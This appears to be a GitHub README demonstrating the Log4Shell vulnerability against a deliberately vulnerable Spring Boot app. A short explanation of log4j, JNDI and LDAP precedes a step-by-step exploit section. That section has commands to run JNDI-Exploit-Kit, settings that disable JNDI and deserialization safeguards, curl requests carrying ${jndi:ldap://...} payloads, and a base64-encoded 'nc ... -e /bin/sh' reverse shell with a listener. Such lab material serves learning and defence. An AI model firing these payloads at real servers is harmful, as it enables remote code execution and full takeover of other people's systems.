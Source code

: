 # Log4shell

## Introduction

- Accessing the host server through log4j vulnerability and exploiting it with malicious code on the host server.

- Since this exploit is done through the log4j it was named commonly as Log4shell.

- Log4shell is similar to the *SQL injection* in which attacker enters sql string into the request parameters and making it execute  on the host server whereas in *log4shell* hacker enters his directory service url like ldap server making the host application connect to the attacker server using jndi lookup and gets the malicious code execute on the host server which is returned to host application in the form of stream object.

  ![Alt Text](log4shell.gif)

## Log4j Vulnerability

- Log4j is the widely used logging library for all java enterprise applications either referenced directly or indirectly in the applications.

- In 2013, Log4j has introduced a new feature which evaluates Expression language which is in format ${code/variable}.

- For example if we want to print the environment variable then syntax of the logger will be,
   ```log.info("java version is {}", ${java.version});```

- The above expression ${java.version} looks the system level environemnt variables which are set at server level and access the variable and put the value in the logger file.

- This is where the exploit is happening and attackers access the host server access without authorization.
  
## JNDI

- JNDI is *Java Naming & Directory Interface*.

- JNDI provides consistent use of naming and/or directory services as a Java API.

- Most commonly used directory protocols are,
  - LDAP
  - RMI
  - DNS
  - NIS

- Like all Java APIs that interface with host systems, JNDI is independent of the underlying implementation.

  ![Alt Text](What-is-JNDI-in-Java.png)

## LDAP 

- LDAP (Light Weight Directory Access Protocol) is a software protocol for enabling anyone to locate data about organizations, individuals and other resources such as files and devices in a network -- whether on the public Internet or on a corporate Intranet.

  ![Alt Text](how-ldap-works.png)

- This is mostly used while authenticating a users when logging in to a applications since it is not a heavyweight protocol like http and takes less time and also reduces the costly DB hits.

- Also, it is very easy to manage users and their roles since constraints can be added at organization or group level which is easy to maintain and manage users when a new rule is introduced or old rule is depricated/removed.


## RCE

- RCE is Remote Code Execution which clearly explains of executing a malicious code on the remote server (host server) without even having access to the server.

  ![Alt Text](RCE.png)

- Attacker enters malicious code in the form of a request parameter fed to the website and then making the application run the code on the host server and perform whatever attacker wants to do on the host server without having authorized access.

## Demo:

#### Prerequisites:

- [x] *Download LDAP server*:
  
  ```
  wget https://github.com/pimps/JNDI-Exploit-Kit/raw/master/target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar
  ```
  
  ![Alt Text](download_ldap.png)

- [x] *Run LDAP server*:
  
  - Move to the jar location and run the server using below command.
      
      ```
      java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -C "calc.exe" -L <your private ip>:1389
      ```
      
  ![Alt Text](run_ldap.png)
  
  > *_NOTE:_*  Use **hostname -I | awk '{print $1}'** to ge the private IP.

- [x] *Create a spring boot application using log4j2 dependency with version less than 2.15*: 
     
     -  Open any Java IDE (Eclipse or SpringToolSuite) \
         ![createapp](setup_1609877530_1610434665.gif)
     
     -  Replace pom.xml with below file & copy below LogController src/main/java,<br/>
          [pom](pom.xml) <br/>
          [LogController](LogController.java) 
     
     - Add below lines in default file created under src/main/java --> *Application.java in main method. 
      
        ```
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        System.setProperty("org.apache.commons.collections.enableUnsafeSerialization", "true");
        ```
     
     - Install [kali-linux](https://www.kali.org/docs/introduction/download-official-kali-linux-images/) and execute below command to install docker for executing app in docker         container.
        
        ```
        sudo apt install docker.io
        ``` 
    
#### Live Demo:
I will cover 3 scenarios where the malicious code will execute different outputs on the host system/server.

- Open calculator on windows system by executing vulnerable java application on local system.
  
  - Run the spring boot application from STS boot dashboard as below.  
    ![run app](02-start-single.png) 
  
  - Use curl to send request to host server with malicious code.
    	
      ```
      
      curl <your IP>:8080 -H 'X-Api-Version: ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_global/Y2FsYy5leGU=}'
      
      ``` 
      
    ![check calc](http://g.recordit.co/I5a0PeQpkf.gif)  
    
- Creating a txt file inside server after hosting application on docker container.
    
    - Host the same application in docker using below commands. 
          
         ```
          docker pull vamsi13krish/vulnerable-app:latest
          docker run -d --name vulnerable-app -p 8080:8080 vamsi13krish/vulnerable-app
          curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_unix/dG91Y2ggL3RtcC9wd25lZC50eHQK}'
         ```
          
    - Check the docker container for pwned.txt file in '/tmp' folder using below command 
        
         ```
          docker exec -it <container ID> ls /tmp
         ```
        
        >*NOTE*: Use **docker ps** to get container ID 


    ![file](http://g.recordit.co/Bn8ImBR7wn.gif)
    
- Getting complete access to the host server using netcat command that will be passed in malicious code on to host server using log4j vulnerability.
    - Use below command to convert the required netcat command to base64 encoded string. 
       
        ```
        echo "nc 172.26.9.117 9999 -e /bin/sh" | base64
        ```
        
     - Copy the base64 string and paste after 'exec_global/' in below command 
       
         ```linux
         ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_global/bmMgIDE3Mi4yNi45LjExNyA5OTk5IC1lIC9iaW4vc2gK}
         ```
       
     - Now open other terminal and run below command to listen to the port 9999.

          ```
          nc -nvlp 9999
          ```
      
     - Run below Curl command and check the listening terminal again.
        
          ```
          curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_global/bmMgIDE3Mi4yNi45LjExNyA5OTk5IC1lIC9iaW4vc2gK}'
          ```  
        
        ![Boom](http://g.recordit.co/xrvaibjQcF.gif)
